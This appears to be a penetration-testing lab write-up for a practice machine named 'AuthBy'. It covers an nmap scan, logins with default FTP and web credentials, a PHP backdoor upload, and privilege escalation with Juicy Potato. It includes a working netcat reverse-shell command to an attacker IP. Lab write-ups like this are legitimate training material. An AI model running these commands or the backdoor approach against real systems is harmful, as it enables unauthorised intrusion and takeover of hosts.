







# AuthBy

* nmap
```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/authby]
└─$ nmap -sCV -Pn -A -T4 -p- 192.168.239.46         
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-14 08:30 EST
Nmap scan report for 192.168.239.46
Host is up (0.083s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Jan 14 21:31 log
| ----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Oct 11 01:16 accounts
242/tcp  open  http          Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
3145/tcp open  zftp-admin    zFTPServer admin
3389/tcp open  ms-wbt-server Microsoft Terminal Service
```

* ftp annonymous access allowed. 





* No download access. Able to login to ftp as admin:admin



* Get files





* Able to login to 192.168.239.46:242 with offsec:elite.

* Its web server. We have access to admin ftp session upload backdoor.php and nc.exe and get a shell connection.





* We get a connection

* Priv Esc-> SeImpersonate is set. System is x86 windows server 2008

* Get juicy potato for x86 systems: https://github.com/ivanitlearning/Juicy-Potato-x86/releases

```
C:\Users\apache\Desktop>jp.exe -t * -p c:\windows\system32\cmd.exe -a "/c C:\wamp\www\nc.exe -e cmd.exe 192.168.45.204 21" -l 9002 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
jp.exe -t * -p c:\windows\system32\cmd.exe -a "/c C:\wamp\www\nc.exe -e cmd.exe 192.168.45.204 21" -l 9002 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 9002
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
* https://github.com/geeksniper/windows-privilege-escalation?tab=readme-ov-file#rottenpotato-token-impersonation

* Get reverse connection


